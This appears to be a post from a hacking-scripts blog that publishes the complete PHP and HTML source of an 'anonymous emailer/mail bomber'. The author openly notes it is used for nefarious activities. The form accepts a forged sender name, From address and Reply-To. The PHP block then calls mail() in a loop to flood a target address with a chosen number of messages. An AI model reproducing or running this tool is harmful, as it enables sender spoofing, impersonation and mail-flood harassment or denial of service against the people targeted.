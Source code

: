 ```yaml
---
id: 148
title: PHP Anonymous Emailer/Mail Bomber
author: admin
layout: post
guid: http://hackingscripts.com/?p=148
permalink: /php-anonymous-emailer/
categories:
  - PHP
tags:
  - Email bomber
  - PHP
---
```

Ok, so this isn&#8217;t really a hack script as such, but is also used for nefarious activities, and therefore is included here.


### PHP Anonymous Emailer/Mail Bomber Source Code

{% highlight php %}&lt;html&gt;
&lt;head&gt;
  &lt;title&gt;PHP Anonymous Emailer/Mail Bomber&lt;/title&gt;
&lt;body bgcolor="black" text="white"&gt;
&lt;form action="" method="post"&gt;
&lt;br&gt;&lt;font size="5" face="verdana"&gt;Sender&lt;/font&gt;&lt;br&gt;
&lt;br&gt;
   &lt;font size="2" face="verdana"&gt;&lt;b&gt;Name:&lt;/b&gt;&lt;/font&gt;&lt;br&gt;
    &lt;input name="from_name" type="text" value="" size="50"&gt;
    &lt;br&gt;&lt;br&gt;
    &lt;font size="2" face="verdana"&gt;&lt;b&gt;Email Adress:&lt;/b&gt;&lt;/font&gt;&lt;br&gt;
    &lt;input name="from_mail" type="text" value="" size="50"&gt;
&lt;br&gt;
&lt;br&gt;
    &lt;font size="2" face="verdana"&gt;&lt;b&gt;Reply Adress:&lt;/b&gt;&lt;/font&gt;&lt;br&gt;
    &lt;input name="email_return" type="text" value="" size="50"&gt;
&lt;br&gt;
&lt;br&gt;
&lt;br&gt;
&lt;br&gt;
  &lt;/div&gt;
  &lt;font size="5" face="verdana"&gt;Recipient Details&lt;/font&gt;&lt;br&gt;&lt;br&gt;
  &lt;font size="2" face="verdana"&gt;&lt;b&gt;Recipient Email:&lt;/b&gt;&gt;&lt;/font&gt;&lt;br&gt;
    &lt;input name="target" type="text" size="50"&gt;
&lt;br&gt;
&lt;br&gt;
    &lt;font size="2" face="verdana"&gt;&lt;b&gt;Subject:&lt;/b&gt;&lt;/font&gt;&lt;br&gt;
    &lt;input name="subject" type="text" value="" size="50"&gt;
&lt;br&gt;
&lt;br&gt;
    &lt;font size="2" face="verdana"&gt;&lt;b&gt;Message:&lt;/b&gt;&lt;/font&gt;&lt;br&gt;
    &lt;textarea name="message" cols="38" rows="5"&gt;&lt;/textarea&gt;
  &lt;br&gt;&lt;br&gt;&lt;font size="2" face="verdana"&gt;&lt;b&gt;Number Of Messages To Send&lt;/b&gt;&lt;/font&gt;&lt;p&gt;
    &lt;input name="messages" type="text" id="messages" value="" size="15"&gt;
&lt;br&gt;
&lt;br&gt;
    &lt;input type=submit&gt;
  &lt;/p&gt;
&lt;/form&gt;
   <?php
       $header="From:$from_name&lt;$from_mail&gt;\n";
       $header .= "Reply-To:$email_return\n";
       $message2 = stripcslashes($message);
       for($x=1;$x&lt;$messages+1;$x++){
        mail($target,$subject,$message2,$header);
       }
   ?>
{% endhighlight %}